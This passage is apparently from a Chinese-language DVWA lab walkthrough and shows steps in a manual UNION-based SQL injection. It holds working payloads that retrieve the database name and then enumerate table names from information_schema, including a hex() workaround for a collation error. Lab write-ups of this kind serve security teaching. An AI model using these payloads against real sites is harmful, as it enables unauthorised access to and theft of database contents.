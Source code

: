```
③查询数据库的名字

1' and 1=2 union select 1,database() # 
```



<img src="assets/图片9.png" alt="图片9" style="zoom: 25%;" />



```
可知数据库的名字为dvwa

④查询数据库中，数据表的名字

1' and 1=2 union select 1,table_name from information_schema.tables where table_schema='dvwa' #
注：Illegal mix of collations for operation 'UNION'

如果出现了这个错误，则要加hex()，详见下

1' and 1=2 union select 1,hex(table_name) from information_schema.tables where table_schema='dvwa' #
```

